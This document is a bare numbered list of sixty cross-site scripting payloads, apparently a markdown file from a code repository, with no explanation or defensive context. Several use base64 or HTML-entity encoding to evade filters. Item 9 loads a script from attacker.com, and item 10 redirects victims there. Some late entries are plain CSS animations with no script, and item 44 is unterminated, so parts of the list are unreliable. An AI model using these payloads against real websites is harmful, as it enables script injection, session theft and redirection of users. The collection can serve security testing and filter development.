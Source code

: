 # XSS Payloads

1. `<script>alert('XSS')</script>`
2. `<img src="x" onerror="alert('XSS')">`
3. `<body onload="alert('XSS')">`
4. `<input type="text" value="XSS" autofocus onfocus="alert(this.value)">`
5. `<svg/onload="alert('XSS')">`
6. `<div style="width:expression(alert('XSS'));">`
7. `<iframe src="javascript:alert('XSS');">`
8. `<a href="javascript:alert('XSS');">Click me</a>`
9. 9. `<script src="http://attacker.com/xss.js"></script>`
10. `<img src="x" onerror="window.location='http://attacker.com'">`
11. `<div style="background:url(javascript:alert('XSS'))"></div>`
12. `<a href="#" onclick="alert('XSS');return false;">Click me</a>`
13. `<svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')"></svg>`
14. `<object data="javascript:alert('XSS')"></object>`
15. `<embed src="javascript:alert('XSS')"></embed>`
16. `<form action="javascript:alert('XSS')"><input type="submit"></form>`
17. `<base href="javascript:alert('XSS');//">`
18. `<isindex formaction="javascript:alert('XSS')">`
19. `<li style=list-style:url() onerror=alert('XSS')>`
20. `<style>@import 'javascript:alert("XSS")';</style>`
21. `<meta http-equiv="refresh" content="0;url=javascript:alert('XSS');">`
22. `<table background="javascript:alert('XSS')">`
23. `<b style="color:expression(alert('XSS'))">XSS</b>`
24. `<img dynsrc="javascript:alert('XSS')">`
25. `<input type="image" dynsrc="javascript:alert('XSS')">`
26. `<layer src="javascript:alert('XSS')"></layer>`
27. `<style>:hover{color:expression(alert('XSS'))}</style>`
28. `<a href="javascript:void(0)" onmouseover="alert('XSS')">Hover me!</a>`
29. `<img lowsrc="javascript:alert('XSS')">`
30. `<bgsound src="javascript:alert('XSS');">`
31. `<br size="&{alert('XSS')}">`
32. `<link rel="stylesheet" href="javascript:alert('XSS');">`
33. `<table style="position:absolute;background:url(javascript:alert('XSS'))">`
34. `<div style="behavior:url(javascript:alert('XSS'))"></div>`
35. `<style>@import 'data:,<svg/onload=alert(1)>'</style>`
36. `<frameset onload=alert('XSS')>`
37. `<table background="data:image/svg+xml,%3Csvg/%3E%3Cscript%3Ealert(1)%3C/script%3E">`
38. `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></object>`
39. `<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPjxzY3JpcHQ%2BYWxlcnQoJ1hTUycpPC9zY3JpcHQ%2BPC9zdmc%2B"></embed>`
40. `<style>@import 'data:text/css,<svg/onload=alert(1)>'</style>`
41. `<iframe srcdoc="<svg/onload=alert(1)>"></iframe>`
42. `<iframe src="data:text/html,%3Csvg%2Fonload%3Dalert(1)%3E"></iframe>`
43. `<meta http-equiv="refresh" content="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">`
44. `<svg><style>{font-family&colon;'<iframe/onload=alert(1)>'
45. `<iframe/onreadystatechange=alert(1)`
46. `<svg><style>&commat;import'data:&comma;<svg/onload=alert(1)>'</style>`
47. `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
48. `<svg><style>&commat;import'data:&comma;<frameset/onload=alert(1)>'</style>`
49. `<table style="background-image: url('x'), url('x'), url('x'), url(data:image/svg+xml,%3Csvg/%3E%3Cscript%3Ealert(1)%3C/script%3E);">`
50. `<a style="pointer-events:none;position:absolute;"><a style="position:absolute;" onclick="alert(1);">X</a></a><a href="javascript:alert(2)">X</a>`
51. `<style>@keyframes x{from {left:0;}to {left: 1000px;}} :target {animation:10s ease-in-out 0s 1 x;}</style><p id=x style="position:absolute;">`
52. `<style>@keyframes slidein {from {margin-left:100%;width:300%;}to {margin-left:0%;width:100%;}} div {animation-duration: 3s;animation-name: slidein;}</style><div>`
53. `<object data="data:text/html;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMik%2B"></object>`
54. `<marquee loop=1 width=0 onfinish=alert(1)>`
55. `<link rel=next href=javascript:alert(1)>`
56. `<style>p[foo=bar{}*{-o-link:'javascript:alert(1)'}{}*{-o-link-source:current}*{background:red}]{background:green};</style>`
57. `<style>*{transition:all 4s}*:target{width:10000px!important}</style><p id=x>`
58. `<style>@media screen and (min-width:40000px){body{left:0;transition:.1s;}} body:hover{position:fixed;left:-10000px;}</style>`
59. `<style>:root{font-family:'-apple-system',san-serif;}</style><input>`
60. `<style>:target {transform: rotate(180deg);}</style><p id=x>`